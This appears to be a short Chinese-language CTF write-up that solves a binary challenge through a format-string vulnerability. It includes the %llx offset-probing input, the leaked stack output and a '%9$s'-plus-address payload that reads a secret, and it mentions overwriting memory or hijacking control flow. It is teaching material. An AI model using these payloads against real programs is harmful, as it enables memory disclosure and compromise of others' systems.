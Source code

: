 
格式化漏洞，可以使用格式化打印出secret地址对应的随机数

首先使用以下格式测试输入对应的位置

```
%0$llx.%1$llx.%2$llx.%3$llx.%4$llx.%5$llx.%6$llx.%7$llx.%8$llx.%9$llx
```

得到输出
```
%0$llx.a.0.0.a.7c.300000380.38000000380.252e786c6c243025.32252e786c6c2431please input the secret:
```
可以看到第8个位置就是我们的输入，那么第9个位置可以控制为目标地址的字符串

使用如下格式打印第9个位置的字符串即secret
```
"%9$saaaa"+p64(secret_addr)
```
即可解题

也可以通过修改secret解题，要注意逐字节修改，或逐字(int16_t)修改，否则会由于一次传输巨量数据导致大概率中断。

当然也可以劫持控制流;-)